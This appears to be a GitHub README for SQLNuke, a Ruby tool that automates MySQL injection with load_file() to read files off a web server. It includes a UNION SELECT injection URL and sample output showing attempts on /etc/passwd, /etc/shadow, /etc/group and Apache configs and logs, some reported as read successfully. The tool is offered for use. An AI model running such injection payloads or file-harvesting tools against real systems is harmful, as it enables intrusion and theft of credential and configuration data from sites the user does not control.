 ### SQLNuke
A powerful MYSQL Injection load_file() Fuzzer
SQLNuke is Simple SQL Injection load_file() fuzzer written in Object Oriented ruby version 1.8.7 .

In SQL Injection and when you need to gather some information out of the server . the best way you can think of is load_file() <a href="http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_load-file">http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_load-file</a> function . and it take a amount of time when you have to guess and do it manually, so the idea of SQLNuke is to help to make the process fast and guess the internal common files using a list file.</p>

##Usage Clip
![SQLNuke](http://www.pixentral.com/pics/1rMmil6o1pSBnRFOQC8bpjdQvp.gif "SQLNuke")

## Requirements 
**git**
```
$ sudo apt-get install git-core
$ which git
_/usr/bin/git_
$ git --version
_git version 1.7.0.4_
```
**ruby  (Ubuntu)**

```
$ sudo apt-get install ruby
```
**SQLNuke Installation**

```
$ git clone https://github.com/nuke99/sqlnuke.git
$ cd sqlnuke
$ ./sql.rb
```
**Basic Usage**



```
root@hakb0x:/sqlnuke# ./sql.rb -u 'http://localhost/index.php?id=-1+UNION+SELECT+1,XxxX,3--'
[!] localhost folder already exists
[!] No OS selected, Continue with all the possibilities 
[200] - [Failed]     /etc/apache2/logs/access.log 
[200] - [Success]    /etc/hosts  
[200] - [Failed]     /home/apache/httpd.conf 
[200] - [Failed]     /usr/local/apache2/conf/httpd.conf 
[200] - [Failed]     /etc/apache2/vhosts.d/default_vhost.include 
[200] - [Failed]     /etc/apache2/apache2.conf 
[200] - [Failed]     /opt/apache/conf/httpd.conf 
[200] - [Failed]     /usr/local/apache/conf/httpd.conf 
[200] - [Failed]     /var/www/vhosts/sitename/httpdocs//etc/init.d/apache 
[200] - [Success]    /etc/passwd  
[200] - [Failed]     /etc/apache/apache.conf 
[200] - [Failed]     /etc/httpd/conf/httpd.conf 
[200] - [Failed]     /home/apache/conf/httpd.conf 
[200] - [Failed]     /etc/apache2/sites-available/default 
[200] - [Failed]     /etc/apache/httpd.conf 
[200] - [Failed]     /etc/httpd/access.log 
[200] - [Failed]     /etc/apache2/httpd.conf 
[200] - [Failed]     /etc/httpd/httpd.conf 
[200] - [Failed]     /etc/init.d/apache2/httpd.conf 
[200] - [Failed]     /etc/init.d/apache/httpd.conf 
[200] - [Success]    /etc/group  
[200] - [Failed]     C:/wamp/bin/apache/logs/access.log 
[200] - [Failed]     /etc/shadow 
....

[+] Saved files are in 'output/localhost'

```


###  Support or Contact @nuke_99
Twitter : https://twitter.com/nuke_99
